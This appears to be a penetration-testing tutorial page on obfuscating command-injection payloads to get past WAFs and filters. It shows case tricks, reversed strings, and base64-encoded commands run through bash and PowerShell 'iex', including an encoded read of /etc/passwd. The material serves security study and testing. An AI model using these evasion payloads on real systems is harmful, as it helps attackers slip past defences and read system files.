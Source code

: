 # Advanced Command Obfuscation
***
#### When we are faced with advanced filtering solutions, like  WAFs, we would need advanced techniques for such cases.

### Case Manipulation
#### If we are dealing with a Windows server, we could change freely the casing of the chars
#### Example:
```shell
> Wh0aMi
root
```
#### With Linux or bash shells, we can achieve the same but using a more interesting method
```bash
$ $(tr "[A-Z]" "[a-z]"<<<"Wh0aMi")
root
```

```bash
$ $(a="Wh0aMi";printf %s "${a,,}")
root
```

##### **Note**: Linux systems are case sensitive


### Reversed Commands
#### Reversing commands and having a command template that switches them back and executes is another obfuscation technique.
#### For example imaohw = whoami , avoiding being detected .
#### First step:
```bash
$ echo 'whoami' | rev
imaohw
```
#### Then we simply execute the original command by reversing it back in a sub-shell ($())
```bash
$ $(rev<<<'imaohw')
root
```

#### The same can be applied in Windows
##### Reverse a string:
```shell
> "whoami"[-1..-20] -join ''
imaohw
```
#### Execute reversed string using a PowerShell sub-shell:
```shell
> iex "$('imaohw' [-1..-20] -join '')"
root
```

### Encoded Commands
#### This technique is helpful for commands containing filtered characters or characters that mey be URL-decoded by the server
#### There are various encoding tools that we can use ,for example, **base64** or **xxd** (for hex encoding)
#### Example:
```shell
$ echo -n 'cat /etc/passwd | grep 33' | base64

Y2F0IC9ldGMvcGFzc3dkIHwgZ3JlcCAzMw==
```
#### Then we create a command to decode the encoded string in a sub-shell , and then pass it to bash to be executed
```shell
$ bash<<<$(base64 -d<<<Y2F0IC9ldGMvcGFzc3dkIHwgZ3JlcCAzMw==)
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
```
#### **Note**: The pipe character wasn't used above because it's a common filtered character

#### It is also possible on Windows
#### First we encode our string to base64
```shell
> [Convert]::ToBase64String([System.Text.Encoding]::Unicode.GetBytes('whoami'))

dwBoAG8AYQBtAGkA
```

#### The above result can be achieved in Linux by converting the string from utf-8 to utf-16 before base64 encode it
```shell
$ echo -n whoami | iconv -f utf-8 -t utf-16le | base64

dwBoAG8AYQBtAGkA
```
#### Then we decode the b64 string and execute it with a PowerShell sub-shell
```shell
>  iex "$([System.Text.Encoding]::Unicode.GetString([System.Convert]::FromBase64String('dwBoAG8AYQBtAGkA')))"

root
```

#### [PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Command%20Injection#bypass-with-variable-expansion)
